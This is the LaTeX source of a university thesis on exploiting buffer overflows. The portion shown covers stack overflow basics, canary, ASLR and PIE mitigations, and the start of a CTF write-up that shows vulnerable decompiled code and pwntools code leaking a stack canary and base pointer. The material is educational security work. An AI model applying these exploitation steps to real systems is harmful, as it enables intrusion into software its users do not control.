\documentclass{theme/uniprthesis}
\usepackage{graphicx}
\usepackage{hyperref}

% Pagina di Copertina
\title{Modern exploits for overflows on environments such as stack heap and kernel stack}
\author{Lorenzo Ferrari}
\advisor{prof. Vincenzo Arceri}
\matr{323110}
\college{Dipartimento di Scienze Matematiche, Fisiche e Informatiche}
\degree{Corso di Laurea Triennale in Informatica}
\degreeyears{2023-2024}




\begin{document}

% Pagina di Copertina
%\begin{titlepage}
%    \centering
%    \vspace*{\fill}
%    \Huge \textbf{Modern Techniques for Exploiting Overflows in Diverse Environments: Stack, Heap, and Linux Kernel}
%    \vspace{2cm} 
    
%    \Large Lorenzo Ferrari


%    \vspace{2cm} % Spazio aggiuntivo tra il nome e il nome dell'istituto
    
%    \Large Università degli studi di Parma, Dipartimento di Scienze Matematiche, Fisiche e Informatiche

    
 
%\end{titlepage}
\maketitle
\newpage

% Pagina vuota
\mbox{} % Inserisce una scatola vuota, che non occupa spazio sulla pagina
\newpage

%indice
\renewcommand{\contentsname}{Index}
\tableofcontents
    
    
    
    %overview 
   \chapter{Introduction}
    Cybersecurity is a key concern in today's digital age, where the interconnectedness of systems exposes them to a myriad of threats.\newline
    In this thesis, we will explore various cybersecurity vulnerabilities, delving into the realms of stack buffer overflows, heap overflows, and their implications, and further analyze a stack buffer overflow within the Linux kernel.\newline

    The cybersecurity landscape is constantly evolving, with adversaries continually seeking to exploit weaknesses in software systems.\newline
    Among the most prevalent vulnerabilities are buffer overflows, in which a program inadvertently writes data beyond the bounds of a designated memory buffer, potentially leading to catastrophic consequences.\newline
    Similarly, heap overflows, while less common, pose a significant threat because they target dynamically allocated memory area. Understanding these vulnerabilities and devising effective mitigation strategies is critical to safeguarding systems from malicious exploitation.

    In \texttt{Chapter 2} of this thesis is dedicated to unraveling the intricacies of buffer overflows. We commence by elucidating the fundamental concept, exploring the mechanisms through which these vulnerabilities manifest, and dissecting the potential ramifications. Moreover, we undertake an exhaustive examination of contemporary mitigation techniques, including Address Space Layout Randomization (ASLR), Data Execution Prevention (NX), and Position Independent Executables (PIE). Through a synthesis of theoretical discourse and practical illustration, we endeavor to provide a comprehensive understanding of buffer overflows and equip readers with the requisite knowledge to mitigate such vulnerabilities effectively.

    In \texttt{Chapter 3}, our focus shifts towards heap overflows, a variant of buffer overflows that exploit vulnerabilities within the dynamically allocated memory region known as the heap. We embark on a nuanced exploration of these vulnerabilities, elucidating the underlying mechanisms and exploring mitigation strategies. Specifically, we delve into techniques such as Safe Linking and Top Chunk Integrity Check, offering insights into their efficacy in thwarting heap-based attacks. Furthermore, we supplement our theoretical discourse with a practical demonstration, thereby fostering a holistic comprehension of heap overflows and their countermeasures

    In the \texttt{final chapter} of our thesis, we hone our focus on buffer overflows within the Linux kernel, dissecting specific vulnerabilities and elucidating mitigation strategies.\newline
    From Supervisor Mode Execution Prevention (SMEP) and Supervisor Mode Access Prevention (SMAP) to Kernel Address Space Layout Randomization (KASLR) and Kernel Page Table Isolation (KPTI), we delve into the arsenal of defenses employed to fortify the Linux kernel against malicious exploitation.\newline
    By virtue of a practical illustration showcasing a stack buffer overflow, we endeavor to underscore the criticality of understanding and mitigating vulnerabilities within the Linux kernel environment.


    
    \section{Tooling}
    In this thesis, several tools will be utilized, including:\newline
    
  
    \texttt{pwndbg} : pwndbg is a GDB plugin that makes debugging with GDB with a focus on features needed by low-level software developers, hardware hackers, reverse engineers, and developer exploitation.\newline
        \texttt{pwntools}: is a very powerful Python library created to make difficult things easy in exploit development.\newline
        Such as receiving program output contents, sending user input, sending bytes instead of letters, and much more.\newline
        \texttt{ ghidra or ida free:} 
        ghidra is a free tool developed by the NSA used to decompile binary files.
        ida free is the free version of ida pro and is a cloud base decompiler, the free version works only for some architecture such as x8664.\newline
        Both tools are used in the reverse engineering part.\newline

\chapter{Stack Buffer Overflow Vulnerability}
    \section{Background} 
    Buffer overflow is a critical vulnerability that emerged around the 1970s and 1980s when it was 
    realized through research which leads the attacker to uncontrolled access to critical points of memory.\newline
    As the 1990s arrived the explosion of the Internet and its client-server infrastructure led large numbers of people to use buffer overflow.\newline
    Furthermore, in this period the first books were published explaining how buffer overflow works.\newline
    In the 2000s people wanted to defend themselves from these types of attacks and invented two types of mitigations:\newline
    \begin{itemize}
        \item[$\bullet$] ASLR (Address Space Layout Randomization)
        \item[$\bullet$] stack canary 
    \end{itemize}
    We will explain this mitigations later.\newline
    Between 2000s and 2010s even with the mitigations attackers managed to avoid them and still exploit buffer overflow vulnerability with technique called:\newline
        \begin{itemize}
        \item[$\bullet$] ROP (Return Oriented Programming)
        \item[$\bullet$] RET2LIBC (Return to Libc)
    \end{itemize}
    Even though vulnerability was born so many years ago it still is one of the biggest an dangerous vulnerablity.
    \clearpage
  
    \section{How Stack Buffer Overflow works}
    A buffer overflow occurs when the attacker can write more input than expected from the buffer, the overflow input exceeds in the memory in the location right after the buffer we are allocating, this could be very dangerous.\newline
    Here's an example:
    \begin{verbatim}
    #include <iostream>
    
    int main() {
    
        char buff[30]; // buffer victim 
        printf(" insert your name: ");
        scanf("%50s",buff); 
        return 0;
    }
    \end{verbatim}
    In this example, we can see a bad usage of the \texttt{scanf} function.\newline
    This program has a char buffer with a size of 30, but the scanf function can read up to 50 chars.\newline 
    What happens if we insert more input than expected for the buffer?\newline
    The state of the buffer before inserting input is reported in Fig \ref{fig:example_empty_buffer}:\newline
    \begin{figure}[h]
    \centering
    
\includegraphics[width=8cm]{Images/chunk_wout_cacnary.png}
    \caption{Empty stack.}
    \label{fig:example_empty_buffer}
    \end{figure}
       \clearpage
    In the example, we can notice that we have our buffer instantiated.\newline
    The question marks were written instead of 0x0000000000000000 because the memory at the beginning of the program is instantiated for the program being executed, but this memory had previously been used in other contexts.\newline
    Now we will try to insert the following payload:
    \begin{verbatim}
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPPBBBBBBBBCCCCCCCC
    \end{verbatim}
   
    The letter \texttt{"A"} was used to fill the buffer \texttt{"P"} for the remaining buffer before \texttt{RBP}, and \texttt{"B"} was used to overwrite the saved base pointer.\newline
    \texttt{"C"} for overwriting the return address.\newline
    This will cause a buffer overflow because when we get to the assembly instruction leave and ret it will not find the instruction \texttt{0x4343434343434343} and the program will receive a segmentation fault.
    \begin{figure}[h]
        \centering
        
\includegraphics[width=0.7\linewidth]{Images/example1.png}
        \caption{Buffer overflow triggered.}
        \label{fig:bofongdb}
    \end{figure}
    \newpage
    
    In Fig \ref{fig:stack w overflow}  is represented the stack after sending this payload:
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.8\linewidth]{Images/stack_after_overflow.png}
        \caption{Stack after the overflow.}
        \label{fig:stack w overflow}
    \end{figure}
    As explained previously we have overwritten the base pointer register and the return address.\newline
    Register that is used to keep track of where the program will execute after the function being executed has finished.\newline
    Having changed the \texttt{RIP} register we changed the control flow with the address \texttt{0x4343434343434343}, an address which the program will not find because is not mapped in the memory and we will encounter a segmentation fault.\newline

    \clearpage
    \section{Mitigations against Stack Buffer Overflow}
    \subsection{Stack Canary}
    The stack canary is a protection technique that was invented in the 90s to prevent a buffer overflow from occurring.\newline
    It consists of generating a protection value, generated at run time and therefore different for each time a program is executed, but remains for the entire execution of the program.\newline
    The stack canary is placed before important metadata such as the saved base pointer and return address.\newline
    Before executing the epilogue of the function, the integrity of the value of the stack canary is checked.\newline
    If this has been modified or tampered with, the program will end immediately with the following exit code:
    \begin{verbatim}
    *** stack smashing detected ***: terminated
    \end{verbatim}
    Compilers like gcc by default compile with stack canary, by analyzing the decompiled file the compiler will insert the following lines of code to insert the stack canary.\newline
    \begin{verbatim}
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
    \end{verbatim}
    
    The name derives from a small historical note. In fact, the name \texttt{stack canary} was inspired by the technique used in coal mines.\newline
    To avoid entering an area of the mine with high levels of toxic gases, they would let a canary fly ahead.\newline
    If the canary died, passage was prohibited; otherwise, they could pass.
    \clearpage
    
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/photo_of_the_stack_with_canary.png}
        \caption{Stack on gdb with canary.}
        \label{fig:canaryongdb}
    \end{figure}
    In the Fig \ref{fig:canaryongdb} we can analyze the stack extracted from GDB, As we can see, two commands were executed:\newline
    \texttt{canary}: This command shows the possible canaries of this code.\newline
    \texttt{stack 20}: This command shows 20 stack instances.
    
    As we can see, at address \texttt{0x7fffffffdf68}, we have the value \texttt{0xe1509a30995e5f00}, which is our stack canary.\newline
    For some reason the canary always ends with the last byte equal to \text{00} which makes it very recognizable when analyzing the stack.\newline
    \clearpage
    \subsection{ASLR}
    ASLR stands for Address Space Layout Randomization and is a technique they invented to protect operating systems from memory attacks.\newline
    In fact ASLR has the task of randomizing sections of memory such as heap, stacks and shared libraries every time a program or operating system is launched.\newline
    ASLR with the stack canary seen previously and PIE that we will see later are mitigations mainly developed to avoid buffer overflow, in fact ASLR for example avoids us from jumping into memory locations that would be in fixed positions if it were not for this mitigation, and it avoids many attacks.\newline
    ASLR can randomize memory segments between a range of:
    \begin{verbatim} 
    2^8(256) to  2^16(65536)
    \end{verbatim}
    On the Linux kernel we can check the level of randomization with the following command:
    \begin{verbatim}
    cat /proc/sys/kernel/randomize_va_space
    2
    \end{verbatim}
    The result of the command is 2 this indicate that we have maximum number of randomization in my personal Linux kernel.\newline
    In the Fig \ref{fig:ASLR_scheme} how ASLR works is explained through a diagram.
     \begin{figure}
         \centering
         
\includegraphics[width=0.8\linewidth]{Images/aslr_explanation.png}
         \caption{ASLR application.}
         \label{fig:ASLR_scheme}
    \end{figure}

    \subsection{PIE}
    PIE stands for Position Independent Executable and is very similar to ASLR, in fact, it follows the same concept as ASLR but with the binary assembly memory region.\newline
    As can be interpreted from the name Position independence gives the possibility for a binary to be loaded and executed in memory at arbitrary addresses, this means that the program data instead of referring to addresses in fixed memory are referenced through the use of an offset random to the current position where it is loaded plus the offset.
    
    \begin{table}[h] % Utilizzo [b] per posizionare la tabella in fondo alla pagina
      \centering
      \begin{tabular}{|c|c|c|c|}
        \hline
        ASLR  & PIE & Binary Address & Libc Address \\
        \hline
        disable & disable  & 0x400000 & 0x7ffff7d86000 \\
        disable & activated   & 0×555555554000 & 0x7ffff7d86000 \\
        disable & activated   & 0×555555554000 & 0x7ffff7d86000 \\
        activated  & disable  &  0x400000 & 0x7fe7833eb000 \\
        activated  & disable  &  0x400000& 0x7f1a44191000 \\
        activated  & activated   & 0×555555554000 & 0x7f29d6ebd000 \\
        activated  & activated   & 0×555555554000 & 0x7f7d008a0000 \\
        \hline
      \end{tabular}
    \end{table}
    \clearpage

    \section{How to exploit a buffer overflow and demonstration of a challenge}
    This chapter will explain the techniques used to exploit a buffer overflow and demonstrate how the techniques work with an example of an exploit.\newline
    As a demonstration, we will analyze the challenge proposed as training in preparation for the national competition.\newline
    The following challenge was found and chosen for presentation because it includes the bypass of all mitigations and features an exploitation technique that remains highly effective.\newline
    The challenge is called terminator and two files are attached:

    \begin{itemize}
        \item[$\bullet$] file terminator ELF  
        \item[$\bullet$] libc with which they compiled that binary
    \end{itemize}
    \clearpage
    
    \subsection{Plan and organization of steps to carry out a challenge}
    When it comes to finding bugs in real-world applications or solving cybersecurity challenges, the approach can be divided into four main points: \newline
    \begin{itemize}
        \item[Step 1:] Understand the environment.
        \item[Step 2:] Reverse engineering.
        \item[Step 3:] Understand which mitigations are.
        \item[Step 4:] Write the exploit and test it.
    \end{itemize}

    \subsection{Understand the envirnoment}
    Running the command "file terminator"  we have the first information such as:\newline
    \begin{itemize}
        \item[$\bullet$] Terminator is obviously a 64 bit x86-64 elf file.
        \item[$\bullet$] The binary is not stripped, this is positive because it implies that we will have debug symbols and in the reverse engineering phase it helps us a lot.
    \end{itemize}
    \subsection{Reverse Engineering}
    This is one of the most important and complicated phases, in fact from a binary file using tools such as IDA or Ghidra which interpret binary files and decompile them to make this phase easier.\newline
    Certainly, even with very powerful tools like these, the decompiled code will never be as clean as the original code.\newline
    In fact, this phase involves an interpretation of the code through the decompiled code and the assembly that is shown.
    I decide to show a challenge with a very simple.
    I decided to show a challenge that has a simple reverse engineering part because the topic of the thesis is the exploitation phase.\newline
    We come across the following function which contains two critical bugs:\newline
    \clearpage
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.9\linewidth]{Images/terminator_rev.png}
        \caption{Ghidra interface.}
        \label{fig:enter-label}
    \end{figure}
    %ARRIVATO QUA
    As we can see the decompiled version does not interpret the names of the variables and the types, in this specific case the reverse engineering part is simple but can usually take several hours.\newline
    After a small adaptation, the code we interpreted is the following:\newline

 \begin{verbatim}
     void welcome(void)
    {
      ssize_t size;
      long in_FS_OFFSET;
      undefined buffer [56];
      long local_10;
      local_10 = *(long *)(in_FS_OFFSET + 0x28);
      puts("What is your name?");
      printf("> ");
      size = read(0,buffer,0x38);
      buffer[(int)size] = 10;
      printf("Hello %sNice to meet you!\n",buffer);
      puts("Where are you from?");
      printf("> ");
      read(0,buffer,0x48);
      puts("Goodbye!");
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
      }
      return;
    }
 \end{verbatim}
        From this code, we can interpret two critical bugs and one mitigation.\newline
    Initially, a char buffer of size fifty-six is instantiated, some prints are made and then we encounter the first bug.\newline
    The read function, as we can read from the manual, reads the number of bytes indicated within the function, in this specific case fifty-six, and does not add the null byte by default, in fact, the programmer added it manually in the position that reflects the bytes read, however causing an off by one because it will put the null byte in the next byte at the end of the buffer, overwriting the first least significant byte of the next address.\newline
    vulnerable code:\newline
    \begin{verbatim} 
        char buffer [56];
        size = read(0,buffer,56);  
        buffer[(int)size] = '\n';
    \end{verbatim}
    The second critical bug is a buffer overflow where the provenance is requested, in fact it uses the same name buffer to save the provenance.
    Since the buffer is fifty-six characters long and the read has the number of bytes it will read set to seventy-two characters, this undoubtedly causes a buffer overflow of as many as fourteen characters.
    vulnerable code:\newline
    \begin{verbatim} 
    char buffer [56];
    read(0,buffer,72);
    \end{verbatim}
    Finally, from this function, we can understand something that we would have analyzed later but realizing it previously already makes us aware of a potential problem.\newline
    In fact, from the decompiled code we find the code used by the compiler to insert the canary stack, which will prevent us from doing buffer overflows without first leaking the canary stack.\newline
    vulnerable code:
    \begin{verbatim} 
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    \end{verbatim}
    
    \clearpage
    \subsection{Understand which mitigations are active}
    To understand the mitigations the pwntools library helps us, in fact, there is a feature that allows us to check the mitigations only with the following command:
    \begin{verbatim}
        checksec terminator                                     
[*] '/home/ferro/Downloads/terminator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    \end{verbatim}
    And the checksec command shows that we have an amd64-64-little that stands for x86-64 infrastructure, we have also Full RELRO which means we can't overwrite any plt and got sections in fact that memory is mapped as read-only section, which is not important for this specific exploit but in other exploitation techniques can be a big obstacle to bypass.\newline
    Then we have stack canary, we have already seen the canary code in the reverse engineering step, which confirms the presence of the canary, this will make our life difficult in the exploitation part.\newline
    Furthermore, we have NX enabled so we can't execute shellcode directly in the stack.\newline
    Finally, the good news we haven't PIE so the program data won't be randomized.\newline
    \subsection{Write the exploit and test it}
    \subsubsection{Leak canary and Base Pointer}

    The first step taken in the exploit was identifying the stack canary and saving the base pointer, as it would prove very useful later on.\newline
    The first overflow is perfect for our work, if we look at the decompiled code we can see how the name input produces a bug, an off-by-one, and allows us to overwrite the first byte of the canary stack, a feature of the canary stack is that the first three nibbles and therefore the first and a half bytes are always zero.\newline
    The printf always prints up to the string terminator or null byte, this is the reason why the stack canary being after the name buffer will not be printed because the first byte is always a null byte.\newline
    But what happens if we overwrite the first byte of the canary with off by one?\newline
    exploit code to leak the canary:
    \begin{verbatim} 
    io.sendafter(b">", b"A"*56) 
    io.recvuntil(b'Hello '+ b'A'*56) 
    canary=io.recv(8) # save the canary  
    svb=io.recvuntil(b'Nice' , drop=True) 
    canary=b"\x00"+canary[1:8] 
    real_canary=u64(canary[0:8])
    real_svb=u64(svb.ljust(8,b'\x00'))
    log.info(f"leaked canary: {hex(real_canary)}")
    log.info(f"leaked save base pointer: {hex(real_svb)}")
    \end{verbatim}
    \texttt{sendafter} and \texttt{recvuntil} are all pwntools functions that allow in the case of \texttt{sendafter} to send input bytes (in this case fifty-six A).\newline
    \texttt{recvuntil} instead allows you to receive the program output.\newline
    \begin{figure}[htbp]
        \centering
